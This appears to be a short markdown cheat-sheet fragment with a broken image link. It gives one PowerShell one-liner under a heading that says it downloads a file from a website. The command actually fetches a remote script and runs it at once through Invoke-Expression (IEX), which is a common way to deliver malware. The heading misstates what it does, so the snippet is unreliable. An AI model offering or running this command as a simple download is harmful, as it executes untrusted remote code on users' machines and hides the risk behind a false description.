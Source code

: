 ## 
To Download a file from a website to the machine with powershell

`powershell IEX (New-Object Net.WebClient).DownloadString('FILE HERE')`
